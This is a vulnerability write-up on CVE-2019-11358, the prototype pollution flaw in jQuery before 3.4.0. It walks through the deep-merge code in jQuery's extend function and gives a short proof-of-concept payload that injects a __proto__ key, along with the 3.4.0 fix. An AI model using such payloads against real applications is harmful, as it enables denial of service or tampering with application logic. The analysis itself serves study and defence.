



# CVE-2019-11358 Vulnerability Analysis

Author: H3rmesk1t

Data: 2022.04.24

# Vulnerability Information
`CVE-2019-11358`Prototype pollution vulnerability: `jQuery` before `3.4.0` version has a prototype pollution vulnerability. Attributes controlled by the attacker can be injected into the object, and then trigger a denial of service by triggering a `JavaScript` exception, or tampering with the application source code to enforce the code path injected by the attacker.

<div align=center></div>

`PoC` is as follows:

```javascript
$.extend(true, {}, JSON.parse('{"__proto__": {"exploit": "h3rmesk1t"}}'))

console.log(exploit);
```

# Vulnerability Analysis
Check out the `JQuery` source code of `3.3.1` version, the vulnerability point is in the `extend` function in the `src/core.js` file. If the first parameter of the function is Boolean `true`, the merge operation is in the deep copy mode.

```javascript
jQuery.extend = jQuery.fn.extend = function() {
	var options, name, src, copy, copyIsArray, clone,
		target = arguments[ 0 ] || {},
		i = 1,
		length = arguments.length,
		deep = false;

	// Handle a deep copy situation
	if ( typeof target === "boolean" ) {
		deep = target;

		// Skip the boolean and the target
		target = arguments[ i ] || {};
		i++;
	}

    ......

};
```

After judging by the `if` function, enter the `for` loop, and take the passed parameter `arguments[i]`, and then assign the `options` traversal to `copy`, that is, `copy` is externally controlled.

```javascript
for ( ; i < length; i++ ) {

    // Only deal with non-null/undefined values
    if ( ( options = arguments[ i ] ) != null ) {

        // Extend the base object
        for ( name in options ) {
            src = target[ name ];
            copy = options[ name ];

            ......

        }
    }
}
```

Then determine whether `copy` is an array. If so, call the `jQuery.extend()` function, which is used to merge the contents of one or more objects into the target object. Here, expand the externally controllable `copy` array into the `target` array; if `copy` is not an array but an object, directly assign the `copy` variable value to `target[name]`.

```javascript
// Recurse if we're merging plain objects or arrays
if ( deep && copy && ( jQuery.isPlainObject( copy ) ||
    ( copyIsArray = Array.isArray( copy ) ) ) ) {

    if ( copyIsArray ) {
        copyIsArray = false;
        clone = src && Array.isArray( src ) ? src : [];

    } else {
        clone = src && jQuery.isPlainObject( src ) ? src : {};
    }

    // Never move original objects, clone them
    target[ name ] = jQuery.extend( deep, clone, copy );

// Don't bring in undefined values
} else if ( copy !== undefined ) {
    target[ name ] = copy;
}
```

At this time, if `name` is set to `__proto__`, it will affect the prototype of `target` upward, and then overwrite the prototype contamination. When `target` array, the parameter passed in arguments[0]`: `target = arguments[0] || {}`.

The `target` variable can be set to the value corresponding to the key `name` of the `target` array through the first element of the parameter `arguments` array passed outside. The `options` variable can be assigned through the parameter `arguments[i]` passed outside. The `copy` variable is assigned by `options`, which leads to the `copy` variable being externally controllable, and finally `copy` will be combined or assigned to the `target` array. Therefore, when `target[__proto__] = externally controllable copy`, there is a prototype pollution vulnerability.

# Vulnerability reappears

```javascript
var jquery = document.createElement('script');
jquery.src = 'https://code.jquery.com/jquery-3.3.1.min.js';

let exp = $.extend(true, {}, JSON.parse('{"__proto__": {"exploit": "h3rmesk1t"}}'));
console.log({}.exploit);
```

<div align=center></div>

# Vulnerability Fix
`jQuery` fixed this vulnerability in `3.4.0` version. By judging whether there is `__proto__` in the attribute, if there is, skip it and not merge it.

<div align=center></div>